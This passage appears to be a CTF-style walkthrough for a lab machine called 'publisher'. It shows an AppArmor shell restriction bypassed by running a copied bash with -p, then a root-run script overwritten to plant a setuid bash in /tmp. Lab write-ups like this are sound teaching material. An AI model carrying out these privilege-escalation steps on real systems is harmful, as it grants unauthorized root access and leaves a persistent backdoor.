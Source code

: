 ### It asking to create or give id
* ### Let try a blank entry

<div align="center">
<img src="https://github.com/user-attachments/assets/01f48f8f-49a1-4626-9613-e543fb54ba55" height=""></img>
</div>

* ### Here is script in opt directory we cant access opt but we can read the contant of file.
<div align="center">
<img src="https://github.com/user-attachments/assets/7570a085-40a4-4f8c-80e0-d2d609dca2b3" height=""></img>
</div>

### As i just casuslly look at the shell i found this:

<div align="center">
<img src="https://github.com/user-attachments/assets/1010631e-e5f3-4ffb-bf9f-eac65debbc80" height=""></img>
</div>

### Let taka a look at App Armor  so we can find profile of this shell.

<div align="center">
<img src="https://github.com/user-attachments/assets/1010631e-e5f3-4ffb-bf9f-eac65debbc80" height=""></img>
</div>

### Hmm here is the running shell and good one is bash is running as root shell, Let switch the shell to manipulate root.
### Let go to dev/shm 
```
cd /dev/shm
```
### Copy shell here
```
cp /bin/bash .
```
### Run this
```
./bash -p
```
### Now we have access to opt directory
```
think@publisher:/dev/shm$ ls /opt
containerd  dockerfile  run_container.sh
```
### Open in any txt editor
```
nano /opt/run_container.sh
```
### Erase the whole code holding ```Ctrl``` + ```K```
### Add this:
```
#!/bin/bash

cp /bin/bash /tmp/test
chmod +s /tmp/test
```
### Save the file.